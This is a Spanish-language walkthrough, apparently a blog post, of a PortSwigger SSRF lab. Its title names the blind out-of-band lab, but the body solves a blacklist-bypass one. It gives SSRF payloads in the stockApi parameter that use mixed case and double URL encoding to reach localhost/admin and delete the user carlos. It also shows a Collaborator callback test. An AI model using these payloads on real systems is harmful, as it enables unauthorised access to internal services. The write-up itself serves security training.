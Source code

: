 ```yaml
---
title: "Blind SSRF with out-of-band detection"
description: "Laboratorio de Portswigger sobre SSRF"
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSRF
tags:
  - SSRF
  - Blind SSRF with out-of-band detection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `inventario` para `acceder` a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `Carlos`. El desarrollador ha implementado dos `medidas` defensivas `débiles` contra `SSRF` que necesitaremos eludir

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-4/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto

![](/assets/img/SSRF-Lab-4/image_2.png)

Hacemos `click` sobre la función `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-4/image_3.png)

Esta función está `enviando` estos `datos` por `POST`

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://l1nvttjpdegib5zaazzc93buslycm3as.oastify.com
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator`

![](/assets/img/SSRF-Lab-4/image_4.png)

Si mandamos un petición con este `payload` nos lo `bloquea` y nos muestra el `mensaje` de `External stock check blocked for security reasons`

```
stockApi=http://localhost/admin
```

De esta forma `evitamos` las `medidas defensivas` contra `SSRF`

```
stockApi=http://LoCaLHost/AdMIn
```

También podemos `ofuscar` el `payload` urlencodeandolo dos veces

```
stockApi=http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-4/image_5.png)

Vemos que estamos ante un `panel administrativo`

![](/assets/img/SSRF-Lab-4/image_6.png)

Si pulsamos `Delete` para `borrar` al usuario `carlos` no nos dejará, debido a que no estamos `logueados` como usuario `administrador`

![](/assets/img/SSRF-Lab-4/image_7.png)

Para poder `eliminarlo` debemos usar el `SSRF`

```
stockApi=http://LOCaLhOsT/AdMIN/dELeTe?username=carlos
```
